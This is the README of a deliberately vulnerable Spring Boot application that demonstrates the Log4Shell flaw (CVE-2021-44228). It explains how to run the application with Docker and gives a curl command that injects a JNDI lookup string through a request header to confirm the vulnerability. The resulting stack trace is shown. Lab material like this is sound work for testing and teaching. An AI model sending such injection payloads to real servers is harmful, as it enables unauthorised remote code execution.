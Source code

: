 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 8u191.

## Running the application

Run it:

```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```
docker build . -t vulnerable-app
docker run -p 8080:8080 vulnerable-app
```

## Exploitation

You can confirm the application is vulnerable by running:

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

You will see the following stack trace in the application logs:

```
2021-12-10 12:43:13,416 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2749)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/